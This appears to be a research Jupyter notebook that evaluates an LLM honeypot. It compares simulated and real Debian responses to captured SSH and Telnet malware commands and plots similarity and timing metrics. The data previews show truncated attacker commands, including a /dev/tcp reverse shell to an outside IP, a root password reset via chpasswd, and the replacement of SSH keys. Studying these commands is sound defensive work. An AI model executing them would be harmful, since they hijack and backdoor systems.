# Command Visualizations

This notebook contains all the visualizations from the honeypot testing with the collected malware commands.

In [1]:
import re

import matplotlib.pyplot as plt
import numpy as np
import pandas as pd

from matplotlib.patches import Patch
from scipy.stats import pearsonr, linregress

In [2]:
ssh_df = pd.read_excel("ssh_command_comparison.xlsx")
ssh_df

,input,gen_output,timing_data,real_output,real_timing,levenstein,jaccard,cosine_simple,timing_dif,cosine_adv
0,uname -s -v -n -r -m,Linux 5.15.0-58-generic OHRA #59-Ubuntu SMP F...,1.793973,Linux debian 6.1.0-34-arm64 #1 SMP Debian 6.1....,0.002114,62,0.105263,0.834300,1.791859,0.378240
1,uname -a,Linux OHRA 5.15.0-46-generic #49-Ubuntu SMP Tu...,1.301895,Linux debian 6.1.0-34-arm64 #1 SMP Debian 6.1....,0.002185,62,0.150000,0.842773,1.299710,0.437421
2,cd ~; chattr -ia .ssh; lockr -ia .ssh,bash: lockr: command not found,0.922160,/bin/bash: line 1: lockr: command not found,0.002947,13,0.500000,0.933323,0.919214,0.959818
3,"cd ~ && rm -rf .ssh && mkdir .ssh && echo ""ssh...",Last login: Tue May 14 15:40:12 2025 from 192....,1.553329,NaN,0.007405,69,0.000000,0.000000,1.545924,0.125369
4,cat /proc/cpuinfo | grep name | wc -l,4,1.516973,0,0.005349,1,0.000000,0.000000,1.511624,0.548050
...,...,...,...,...,...,...,...,...,...,...
6870,"nohup bash -c ""exec 6<>/dev/tcp/47.245.95.164/...",user1@OHRA:~$ ls\nDocuments Downloads Music ...,0.821098,/bin/bash: -c: line 1: syntax error near unexp...,0.005709,523,0.000000,0.655903,0.815389,0.121632
6871,chmod +x ./.1198735837250589887/sshd;nohup ./....,user1@OHRA:~$ ls\nDocuments Downloads Music ...,0.921709,chmod: cannot access './.1198735837250589887/s...,0.004343,138,0.000000,0.789254,0.917366,0.038627
6872,"echo ""root:uLIymHtZdhYH""|chpasswd|bash",Changing password for user user1.\nCurrent pas...,0.819348,/bin/bash: line 1: chpasswd: command not found,0.004017,76,0.000000,0.787191,0.815331,0.421931
6873,chmod +x ./.8620107236198783456/sshd;nohup ./....,user1@OHRA:~$ ls\nDocuments Downloads Music ...,0.924548,chmod: cannot access './.8620107236198783456/s...,0.003396,138,0.000000,0.837428,0.921152,0.078144


In [3]:
telnet_df = pd.read_excel("telnet_command_comparison.xlsx")
telnet_df

,input,gen_output,timing_data,real_output,real_timing,levenstein,jaccard,cosine_simple,timing_dif,cosine_adv
0,sh,sh: not found,1.749009,-,5.009277,13,0.000000,0.000000,3.260268,0.092401
1,shell,shell: not found,0.797780,/bin/bash: line 1: shell: command not found,0.001871,27,0.428571,0.862662,0.795909,0.801489
2,enable,enable: not found,0.705962,enable .\nenable :\nenable [\nenable alias\nen...,0.001845,772,0.000000,0.757712,0.704117,0.547444
3,system,system: not found,0.814435,/bin/bash: line 1: system: command not found,0.001468,27,0.428571,0.854282,0.812967,0.660204
4,ping ;sh,ping: command not found\nsh: not found,0.806642,-,5.006510,37,0.000000,0.000000,4.199868,0.009401
...,...,...,...,...,...,...,...,...,...,...
4510,/bin/busybox AFHBI,AFHBI: applet not found,1.607507,AFHBI: applet not found,0.001842,0,1.000000,1.000000,1.605665,1.000000
4511,cat /proc/mounts; /bin/busybox KWEQL,"rootfs / rootfs rw 0 0\nproc /proc proc rw,nos...",5.631925,"sysfs /sys sysfs rw,nosuid,nodev,noexec,relati...",0.002854,2021,0.160920,0.943036,5.629071,0.759516
4512,cd /dev/shm; cat .s || cp /bin/echo .s; /bin/b...,KWEQL: applet not found,0.922525,NaN,0.002857,23,0.000000,0.000000,0.919668,-0.003547
4513,tftp; wget; /bin/busybox KWEQL,usage: tftp [-e] [host [port]]\nUsage: wget [O...,1.330913,-,5.006033,87,0.000000,0.051571,3.675120,0.060665


## Command complexity

In [4]:
ssh_df["input_len"] = ssh_df["input"].str.len()
telnet_df["input_len"] = telnet_df["input"].str.len()
print(f"Median command length for ssh_df: {ssh_df["input_len"].median()}")
print(f"Median command length for telnet_df: {telnet_df["input_len"].median()}")

Median command length for ssh_df: 53.0
Median command length for telnet_df: 36.0


In [5]:
def count_special_chars(row: str) -> int:
    """
    function to calculate the frequency of special chars
    applied on a per-row basis to return the absolute num
    """
    if pd.isnull(row) or pd.isna(row):
        return 0

    return len(re.findall(r'[;\$|&<>]', row))

In [6]:
ssh_df["special_chars"] = ssh_df["input"].apply(count_special_chars)
telnet_df["special_chars"] = telnet_df["input"].apply(count_special_chars)

print(f"Median special command frequency for ssh_df: {ssh_df['special_chars'].median()}")
print(f"Median special command frequency for telnet_df: {telnet_df['special_chars'].median()}")

Median special command frequency for ssh_df: 2.0
Median special command frequency for telnet_df: 2.0


## Similarity score plots



In [7]:
fig, axes = plt.subplots(1, 2, figsize=(15, 6), sharey=False, sharex=False)

# similarity scores except levenstein (different scale)
axes[0].violinplot(ssh_df[["jaccard","cosine_simple","cosine_adv"]], showmeans=False, showmedians=True)
axes[0].set_title("Overview of the SSH Similarity Scores", pad=15)
axes[0].set_ylabel("Similarity Score")
# axes[0].xlabel("Score Types")
axes[0].set_xticks(ticks=[1,2,3], labels=["Jaccard Similarity","Char-Based Cosine","Semantic-Based Cosine"])
axes[0].grid(True, axis="y", linestyle="--", alpha=0.8)

# levenstein
axes[1].violinplot(ssh_df[ssh_df["levenstein"] < 200]["levenstein"], showmeans=False, showmedians=True, vert=False)
# axes[1].violinplot(ssh_df["levenstein"], showmeans=False, showmedians=True, vert=False)
axes[1].set_title("Overview of the SSH Levenstein Distance", pad=15)
axes[1].set_ylabel("SSH Honeypot")
axes[1].set_xlabel("Levestein Distance (showing only values < 200)")
# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={ssh_df['levenstein'].min():.2f}, max={ssh_df['levenstein'].max():.2f}\n"
    f"median={ssh_df['levenstein'].median():.2f}, std={ssh_df['levenstein'].std():.2f}"
))
axes[1].legend(handles=[patch], loc='upper right', title='Statistics')
axes[1].set_yticks([])
axes[1].grid(True, axis="x", linestyle="--", alpha=0.8)

plt.tight_layout()
plt.savefig("command_viz/1-2_ssh_scores.png", dpi=300)
plt.show()

In [8]:
ssh_df["levenstein"].min(), ssh_df["levenstein"].max(), ssh_df["levenstein"].median(), ssh_df["levenstein"].std()

(np.int64(0), np.int64(2741), np.float64(85.0), np.float64(65.0297716885224))



In [9]:
plt.figure(figsize=(8, 6))

plt.violinplot(ssh_df[ssh_df["levenstein"] < 200]["levenstein"], showmeans=False, showmedians=True, vert=False)
# plt.violinplot(ssh_df["levenstein"], showmeans=False, showmedians=True, vert=False)
plt.title("Overview of the SSH Levenstein Distance")
plt.ylabel("SSH Honeypot")
plt.xlabel("Levestein Distance (showing only values < 200)")

# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={ssh_df['levenstein'].min():.2f}, max={ssh_df['levenstein'].max():.2f}\n"
    f"median={ssh_df['levenstein'].median():.2f}, std={ssh_df['levenstein'].std():.2f}"
))
plt.legend(handles=[patch], loc='upper right', title='Statistics')

plt.yticks([])
plt.grid(True, axis="x", linestyle="--", alpha=0.8)
plt.savefig("command_viz/2_ssh_levenstein.png", dpi=300)
plt.show()



In [10]:
plt.figure(figsize=(8, 6))

plt.violinplot(telnet_df[["jaccard","cosine_simple","cosine_adv"]], showmeans=False, showmedians=True)
plt.title("Overview of the Telnet Similarity Scores")
plt.ylabel("Similarity Score")
# plt.xlabel("Score Types")
plt.xticks(ticks=[1,2,3], labels=["Jaccard Similarity","Char-Based Cosine","Semantic-Based Cosine"])
plt.grid(True, axis="y", linestyle="--", alpha=0.8)
plt.savefig("command_viz/3_telnet_scores.png", dpi=300)
plt.show()



In [11]:
plt.figure(figsize=(9, 6))

plt.violinplot(telnet_df[telnet_df["levenstein"] < 200]["levenstein"], showmeans=False, showmedians=True, vert=False)
# plt.violinplot(telnet_df["levenstein"], showmeans=False, showmedians=True, vert=False)
plt.title("Overview of the Telnet Levenstein Distance")
plt.ylabel("Telnet Honeypot")
plt.xlabel("Levestein Distance (showing only values < 200)")

# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={telnet_df['levenstein'].min():.2f}, max={telnet_df['levenstein'].max():.2f}\n"
    f"median={telnet_df['levenstein'].median():.2f}, std={telnet_df['levenstein'].std():.2f}"
))
plt.legend(handles=[patch], loc='upper right', title='Statistics')

plt.yticks([])
plt.grid(True, axis="x", linestyle="--", alpha=0.8)
plt.savefig("command_viz/4_telnet_levenstein.png", dpi=300)
plt.show()



In [12]:
fig, axes = plt.subplots(1, 2, figsize=(15, 6), sharey=False, sharex=False)

# similarity scores except levenstein (different scale)
axes[0].violinplot(telnet_df[["jaccard","cosine_simple","cosine_adv"]], showmeans=False, showmedians=True)
axes[0].set_title("Overview of the Telnet Similarity Scores", pad=15)
axes[0].set_ylabel("Similarity Score")
# axes[0].xlabel("Score Types")
axes[0].set_xticks(ticks=[1,2,3], labels=["Jaccard Similarity","Char-Based Cosine","Semantic-Based Cosine"])
axes[0].grid(True, axis="y", linestyle="--", alpha=0.8)

# levenstein
axes[1].violinplot(telnet_df[telnet_df["levenstein"] < 200]["levenstein"], showmeans=False, showmedians=True, vert=False)
# axes[1].violinplot(ssh_df["levenstein"], showmeans=False, showmedians=True, vert=False)
axes[1].set_title("Overview of the Telnet Levenstein Distance", pad=15)
axes[1].set_ylabel("Telnet Honeypot")
axes[1].set_xlabel("Levestein Distance (showing only values < 200)")
# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={ssh_df['levenstein'].min():.2f}, max={ssh_df['levenstein'].max():.2f}\n"
    f"median={ssh_df['levenstein'].median():.2f}, std={ssh_df['levenstein'].std():.2f}"
))
axes[1].legend(handles=[patch], loc='upper right', title='Statistics')
axes[1].set_yticks([])
axes[1].grid(True, axis="x", linestyle="--", alpha=0.8)

plt.tight_layout()
plt.savefig("command_viz/2-3_telnet_scores.png", dpi=300)
plt.show()

## Timing chars



In [13]:
plt.figure(figsize=(9, 6))

# plt.violinplot(ssh_df[ssh_df["timing_data"] < 10]["timing_data"], showmeans=False, showmedians=True, vert=False)
plt.violinplot(ssh_df["timing_data"], showmeans=False, showmedians=True, vert=False)
plt.title("Overview of the SSH Response Times")
plt.ylabel("SSH Honeypot")
plt.xlabel("Response Time (s)")

# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={ssh_df['timing_data'].min():.2f}, max={ssh_df['timing_data'].max():.2f}\n"
    f"median={ssh_df['timing_data'].median():.2f}, std={ssh_df['timing_data'].std():.2f}"
))
plt.legend(handles=[patch], loc='upper right', title='Statistics')

plt.yticks([])
plt.grid(True, axis="x", linestyle="--", alpha=0.8)
plt.savefig("command_viz/5_ssh_timing.png", dpi=300)
plt.show()



In [14]:
plt.figure(figsize=(9, 6))

plt.violinplot(telnet_df[telnet_df["timing_data"] < 10]["timing_data"], showmeans=False, showmedians=True, vert=False)
# plt.violinplot(telnet_df["timing_data"], showmeans=False, showmedians=True, vert=False)
plt.title("Overview of the Telnet Response Times")
plt.ylabel("Telnet Honeypot")
plt.xlabel("Response Time (s) (showing only values < 10s)")

# add legend with values
patch = Patch(facecolor='lightblue', edgecolor='black', label=(
    f"min={telnet_df['timing_data'].min():.2f}, max={telnet_df['timing_data'].max():.2f}\n"
    f"median={telnet_df['timing_data'].median():.2f}, std={telnet_df['timing_data'].std():.2f}"
))
plt.legend(handles=[patch], loc='upper right', title='Statistics')

plt.yticks([])
plt.grid(True, axis="x", linestyle="--", alpha=0.8)
plt.savefig("command_viz/6_telnet_timing.png", dpi=300)
plt.show()



In [15]:
fig, axes = plt.subplots(1, 2, figsize=(15, 6), sharey=True, sharex=False)

# SSH Honeypot and Real System
vplots = axes[0].violinplot(ssh_df[["timing_data", "real_timing"]], showmeans=False, showmedians=True)

# set color
vplots['bodies'][0].set_facecolor('blue')
vplots['bodies'][1].set_facecolor('green')

axes[0].set_title("Response Times for SSH Malware Commands", pad=15)
axes[0].set_ylabel("Response Time (s)")
# axes[0].set_xlabel("System")
# add legend with values
patch = Patch(facecolor='blue', edgecolor='black', label=(
    f"min={ssh_df['timing_data'].min():.2f}, max={ssh_df['timing_data'].max():.2f}\n"
    f"median={ssh_df['timing_data'].median():.2f}, std={ssh_df['timing_data'].std():.2f}"
))
patch2 = Patch(facecolor='green', edgecolor='black', label=(
    f"min={ssh_df['real_timing'].min():.2f}, max={ssh_df['real_timing'].max():.2f}\n"
    f"median={ssh_df['real_timing'].median():.2f}, std={ssh_df['real_timing'].std():.2f}"
))
axes[0].legend(handles=[patch,patch2], loc='upper right', title='Statistics')
axes[0].set_xticks([1,2], labels=["SSH Honeypot", "Debian 12"])
axes[0].grid(True, axis="y", linestyle="--", alpha=0.8)


# Telnet Honeypot and Real System
vplots = axes[1].violinplot(telnet_df[["timing_data", "real_timing"]], showmeans=False, showmedians=True)

# set color
vplots['bodies'][0].set_facecolor('blue')
vplots['bodies'][1].set_facecolor('green')

axes[1].set_title("Response Times for Telnet Malware Commands", pad=15)
# axes[1].set_ylabel("Response Time (s)")
# axes[1].set_xlabel("System")
# add legend with values
patch = Patch(facecolor='blue', edgecolor='black', label=(
    f"min={telnet_df['timing_data'].min():.2f}, max={telnet_df['timing_data'].max():.2f}\n"
    f"median={telnet_df['timing_data'].median():.2f}, std={telnet_df['timing_data'].std():.2f}"
))
patch2 = Patch(facecolor='green', edgecolor='black', label=(
    f"min={telnet_df['real_timing'].min():.2f}, max={telnet_df['real_timing'].max():.2f}\n"
    f"median={telnet_df['real_timing'].median():.2f}, std={telnet_df['real_timing'].std():.2f}"
))
axes[1].legend(handles=[patch, patch2], loc='upper right', title='Statistics')
axes[1].set_xticks([1,2], labels=["Telnet Honeypot", "Debian 12"])
axes[1].grid(True, axis="y", linestyle="--", alpha=0.8)

plt.tight_layout()
plt.savefig("command_viz/5-6_timing.png", dpi=300)
plt.show()

In [16]:
ssh_df["input"].fillna("-", inplace=True)

In [17]:
ssh_df[ssh_df["input"].str.contains(r"\bchpasswd\b|\bpasswd\b")]["real_timing"].median(), ssh_df[~ssh_df["input"].str.contains(r"\bchpasswd\b|\bpasswd\b")]["real_timing"].median()

(np.float64(2.0151642560958862), np.float64(0.001820802688598633))



In [18]:
fig, axes = plt.subplots(1, 1, figsize=(6, 5), sharey=False, sharex=False)

# subset
ssh_timing_subset = ssh_df[~ssh_df["input"].str.contains(r"\bchpasswd\b|\bpasswd\b")]

# timing score for ssh
vplots = axes.violinplot(ssh_timing_subset[["timing_data", "real_timing"]], showmeans=False, showmedians=True)

# colors
vplots['bodies'][0].set_facecolor('blue')
vplots['bodies'][1].set_facecolor('green')

axes.set_title("Response Times for Filtered SSH Malware Commands", pad=15)
# axes.set_ylabel("Telnet Honeypot")
axes.set_xlabel("Response Time (s) (no password changing commands)")
# add legend with values
patch = Patch(facecolor='blue', edgecolor='black', label=(
    f"min={ssh_timing_subset["timing_data"].min():.2f}, max={ssh_timing_subset["timing_data"].max():.2f}\n"
    f"median={ssh_timing_subset["timing_data"].median():.2f}, std={ssh_timing_subset["timing_data"].std():.2f}"
))
patch2 = Patch(facecolor='green', edgecolor='black', label=(
    f"min={ssh_timing_subset["real_timing"].min():.2f}, max={ssh_timing_subset["real_timing"].max():.2f}\n"
    f"median={ssh_timing_subset["real_timing"].median():.2f}, std={ssh_timing_subset["real_timing"].std():.2f}"
))
axes.legend(handles=[patch, patch2], loc='upper right', title='Statistics')
axes.set_xticks([1,2], ["SSH Honeypot", "Debian12"])
axes.grid(True, axis="y", linestyle="--", alpha=0.8)

plt.tight_layout()
plt.savefig("command_viz/5.1_ssh_special_timing.png", dpi=300)
plt.show()

## Command complexity & Similarity scores

In [19]:
for metric in ["cosine_adv","cosine_simple","jaccard","levenstein"]:
    corr1 = ssh_df[["special_chars",metric]].corr()[metric].iloc[0]
    corr2 = ssh_df[["input_len",metric]].corr()[metric].iloc[0]
    print(f"Correlation between special_chars and {metric}: {round(corr1,4)}")
    print(f"Correlation between command length and {metric}: {round(corr2,4)}")

Correlation between special_chars and cosine_adv: -0.202
Correlation between command length and cosine_adv: -0.6708
Correlation between special_chars and cosine_simple: -0.3491
Correlation between command length and cosine_simple: -0.2993
Correlation between special_chars and jaccard: -0.5545
Correlation between command length and jaccard: -0.3181
Correlation between special_chars and levenstein: 0.3908
Correlation between command length and levenstein: 0.1248


